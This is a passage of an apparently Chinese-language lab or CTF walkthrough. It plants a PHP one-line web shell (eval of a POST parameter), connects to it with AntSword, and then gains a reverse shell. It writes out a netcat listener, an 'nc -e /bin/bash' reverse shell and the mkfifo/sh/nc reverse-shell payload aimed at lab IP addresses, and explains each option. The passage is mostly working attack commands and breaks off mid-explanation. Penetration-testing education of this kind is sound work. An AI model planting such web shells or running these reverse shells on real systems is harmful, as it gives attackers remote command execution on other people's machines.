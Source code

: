 ```php
<?php eval($_POST[1]);?>
```


使用蚁剑连接

![12](/assets/12.png)

连上去了,手动在弹个 shell 回来


```bash
现在kali机器上监听4488端口
nc -lvp 4488

Desc:
这个命令使用 nc（netcat）工具创建一个监听端口的服务器，以等待来自客户端的连接。具体各部分的含义如下：

- `nc`：netcat 命令，用于网络通信。
- `-l`：表示创建监听模式。
- `-v`：启用详细输出模式，以显示连接和传输的详细信息。
- `-p 4488`：指定要监听的端口号，这里是 4488。

这个命令的目的是在本地主机上创建一个监听端口（4488），以等待客户端连接。如果与反向 shell 命令 `nc -nv 
192.168.197.147 4488 -e /bin/bash` 配合使用，即建立了一个反向 shell 连接。

当客户端连接到本地主机的 4488 端口时，连接将被接受，并在服务器端显示详细信息，然后您将能够在客户端和服务器之间进行交互。

-------------------------------------------------------------------------------------------------------------------------------

nc -nv 192.168.197.147 4488 -e /bin/bash

Desc:
这条命令使用了 nc (netcat) 工具，尝试连接到 IP 地址
192.168.197.147 的主机的 4488 端口，并在成功连接后执行 `/bin/bash` 命令，即打开一个 Bash shell。

这条命令的各部分含义如下：

- `nc`：netcat 命令，用于网络通信。
- `-nv`：nc 命令的选项之一。`-n` 选项表示禁用主机名解析，`-v` 选项表示启用详细输出模式，以显示连接过程中的详细信息。
- `192.168.197.147`：目标主机的 IP 地址。
- `4488`：目标主机的端口号。
- `-e /bin/bash`：nc 命令的选项之一，表示在建立连接后执行指定的命令，这里是 `/bin/bash`，即打开一个 Bash shell。

这个命令的目的是在目标主机上建立一个反向 shell 连接，允许执行任意命令并与目标主机进行交互。
```



这尼玛是 openbad 的 nc，换个payload继续连

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.197.128 4488 >/tmp/f

Desc:
这个命令是一个典型的反向 shell 攻击命令，它将在目标系统上创建一个反向 shell 连接，使得攻击者可以远程执行命令并与目标系统进行交互。

以下是命令的各部分含义：

- `rm /tmp/f`：删除名为 `/tmp/f` 的临时文件（如果存在）。
- `mkfifo /tmp/f`：创建一个命名管道（FIFO），即 `/tmp/f` 文件。
- `cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.197.128 4488 >/tmp/f`：
  - `cat /tmp/f`：从命名管道 `/tmp/f` 读取数据。
  - `|`：管道符，用于将一个命令的输出传递给另一个命令。
  - `/bin/sh -i 2>&1`：启动一个交互式的 Bash shell，并将标准错误流重定向到标准输出流，从而使得输入输出都通过管道进行传输。
  - `|`：再次使用管道符。
```